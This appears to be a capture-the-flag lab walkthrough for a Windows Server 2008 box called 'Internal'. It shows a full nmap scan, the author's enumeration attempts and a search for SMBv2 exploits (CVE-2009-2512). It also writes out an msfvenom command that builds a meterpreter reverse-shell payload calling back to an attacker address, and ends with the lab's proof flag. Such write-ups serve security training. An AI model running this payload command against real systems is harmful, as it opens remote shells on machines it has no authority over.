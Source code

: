 # Win - Internal

---

### Host

```bash
192.168.238.40
```

### Scan

```bash
# Nmap 7.95 scan initiated Sat Feb  1 02:59:50 2025 as: /usr/lib/nmap/nmap --privileged -sCV -A -Pn -O -p- -oN nmap.md 192.168.238.40
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)

135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| rdp-ntlm-info: 
|   Target_Name: INTERNAL
|   NetBIOS_Domain_Name: INTERNAL
|   NetBIOS_Computer_Name: INTERNAL
|   DNS_Domain_Name: internal
|   DNS_Computer_Name: internal
|   Product_Version: 6.0.6001
|_  System_Time: 2025-02-01T08:01:51+00:00
|_ssl-date: 2025-02-01T08:01:59+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=internal
| Not valid before: 2024-08-01T16:21:33
|_Not valid after:  2025-01-31T16:21:33

5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable

49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC

Host script results:
|_clock-skew: mean: 1h36m00s, deviation: 3h34m39s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-02-01T00:01:51-08:00
|_nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:86:42:db (VMware)
| smb2-time: 
|   date: 2025-02-01T08:01:51
|_  start_date: 2024-08-02T16:21:30
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required

PORT     STATE         SERVICE     REASON
53/udp   open          domain      udp-response ttl 125
137/udp  open          netbios-ns  udp-response ttl 125
138/udp  open|filtered netbios-dgm no-response
500/udp  open|filtered isakmp      no-response
4500/udp open|filtered nat-t-ike   no-response
```

---

## Walkthrough

- Try nslookup, dig port 53, no info found.
- Try smbclient on port 139 & 445, no info found.
- Try rdp on 3389, no connection.

- Try access IP:5357, no page.
- Search “port 5357 tcp used for windows, what purpose” → we get information about this port is used for “Web Services for Devices (WSDAPI)”. Search exploit for it.

- On github, we found two resources:
    - https://github.com/ZZ-SOCMAP/CVE-2021-31166
    - https://github.com/0vercl0k/CVE-2021-31166
- However, it verify the vulnerability (PoC), not giving us a reverse shell.

- Keep searching, find another one, CVE-2009-2512 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-2512
- Search that CVE number, expoitDB comes up - https://www.exploit-db.com/exploits/40280

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.170 LPORT=6767  EXITFUNC=thread  -f python

> exploit.py

> msfconsole
```

![image.png](Win%20-%20Internal%2018d553bebf0f80da9686fc9634d9ba92/image.png)

![image.png](Win%20-%20Internal%2018d553bebf0f80da9686fc9634d9ba92/image%201.png)

![image.png](Win%20-%20Internal%2018d553bebf0f80da9686fc9634d9ba92/image%202.png)

![image.png](Win%20-%20Internal%2018d553bebf0f80da9686fc9634d9ba92/image%203.png)

### FLAG

```bash
- proof.txt : ab202e7d888f83f94d642386be748725
```